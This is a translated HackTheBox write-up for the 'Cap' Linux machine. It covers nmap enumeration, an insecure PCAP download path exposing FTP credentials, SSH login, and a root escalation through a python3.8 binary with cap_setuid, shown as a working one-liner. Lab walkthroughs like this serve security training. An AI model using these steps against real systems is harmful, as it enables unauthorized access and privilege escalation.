





# HackTheBox 详细报道:Cap

> 原文：<https://infosecwriteups.com/hackthebox-writeup-cap-43c7b6bcb32a?source=collection_archive---------3----------------------->



这是一个由易到难的 Linux 盒子，非常简单，对于新手来说是一个很好的入门挑战。为了解决机器，攻击者需要执行基本的扫描和枚举，以便在机器上获得立足点并获得用户标志。向 root 用户提升权限也是一个相对简单的过程，并且需要对 Linux 系统进行基本的枚举，以查找易受攻击的二进制文件。

# 列举

我开始枚举目标机器，用 **NMAP** 执行快速扫描，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.245PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

扫描发现三个端口打开(即端口 21、22 和 80)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 21,22,80 -oN nmap-report 10.10.10.245PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
```

我可以看到端口 80 有很多输出。我认为我有足够的信息继续前进，并开始检查托管在端口 80 上的网站。

# HTTP —端口 80 分析

导航到[*http://10 . 10 . 10 . 245/*](http://10.10.10.245/)*，我看到一个安全控制面板:*

**

*80 端口网站*

*通过查看不同的菜单项，我可以看到诸如目标机器 IP 配置详细信息和机器当前网络状态等信息。该网站还提供下载 PCAP 文件的功能，该文件可以作为网络流量的安全快照。*

**

*PCAP 9*

*我可以在网络浏览器的 URL 中看到，有一个名为 **/data** 的子目录，当前显示的 PCAP 是 9 号。我决定尝试通过输入不同的值来找到更早的 PCAP:*

```
*[*http://10.10.10.245/*](http://10.10.10.245/)data/0*
```

*我可以看到这个工作，我得到了一个新的 PCAP 文件，可供下载。*

**

*PCAP 0*

*我下载了 id 0 的 PCAP，并用 Wireshark**检查了它。通过查看数据包捕获，我能够找到 FTP 登录的凭证:***

**

*FTP 凭据*

# *FTP —端口 21 分析*

*使用上面找到的凭证，我登录到 FTP 并检索用户标志:*

```
*$ ftp 10.10.10.245ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Jun 12 08:37 snap
drwxrwxr-x    2 1001     1001         4096 Jun 12 08:55 temp
-r--------    1 1001     1001           33 Jun 12 08:32 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (96.4867 kB/s)$ cat user.txt 
28e72d34119f0e........*
```

*因为我有了用户 **nathan** 的凭证，所以我决定尝试通过 SSH 端口 22 登录，以获得一个合适的 shell。*

```
*$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password:nathan@cap:~$*
```

# *权限提升— Linux 功能*

*为了将权限提升到 root，我决定使用 **linpeas.sh** 来枚举目标机器。浏览 linpeas.sh 提供的输出，我在 Capabilities 部分看到二进制文件`/usr/bin/python3.8`容易受到特权提升的攻击。*

```
*[+] Capabilities

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep*
```

> ***Linux 功能**为进程提供了可用根特权的子集。当一个进程/程序需要被分配更多的权限来完成它的任务时，比如打开一个网络套接字，这是很有用的。当您希望在执行特权操作之后(例如，在设置 chroot 并绑定到套接字之后)限制自己的进程时，功能非常有用。但是，通过向它们传递恶意命令或参数，然后以根用户身份运行，就可以攻击它们。*

*如果您想了解更多关于 Linux 功能以及如何利用它们的信息，下面的链接很有用:*

*[](https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities) [## Linux 权限提升

### 你每天都使用黑客技巧吗？你觉得这本书很有趣吗？你愿意吗？这样我们就可以花更多的时间在这上面…

book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities) 

我能够利用二进制文件`/usr/bin/python3.8`将我的权限提升到 root，并获得 root 标志:

```
$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'root@cap:~# cat /root/root.txt 
681839304b419da.........
```

# 最后的想法

总的来说，我发现这台机器非常简单，是让初学者轻松进入 HackTheBox 平台的一种方式。该机器向攻击者介绍核心原则(即枚举、web 分析、权限提升等)。)的解决方案，并帮助开发解决挑战的关键技能。谢谢你一直读到最后，祝你黑客快乐😄！*